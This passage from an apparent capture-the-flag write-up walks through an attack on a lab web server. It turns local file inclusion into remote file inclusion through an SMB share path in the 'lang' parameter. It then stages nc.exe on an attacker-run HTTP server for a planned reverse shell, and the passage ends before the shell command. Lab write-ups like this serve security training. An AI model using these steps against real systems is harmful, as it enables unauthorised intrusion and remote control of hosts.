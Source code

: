 And start my `smbd` service:
{% highlight bash %}
$ systemctl start smbd
{% endhighlight %}

Now if we browse to `/blog/?lang=\\10.10.XX.XX\public\phpinfo.php`:

![](/assets/images/sniper8.png)

We have successfully upgraded from LFI to remote file inclusion (RFI) :)

Nows lets try to establish a reverse shell back to us. Since `PHP` reverse shells are sometimes a little wonky , I'm going to upload a `nc.exe` and use it to connecting back to our listener.

Starting a webserver:
{% highlight bash %}
$ mkdir ~/Desktop/web
$ cp /usr/share/windows-resources/binaries/nc.exe ~/Desktop/web
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
{% endhighlight %}

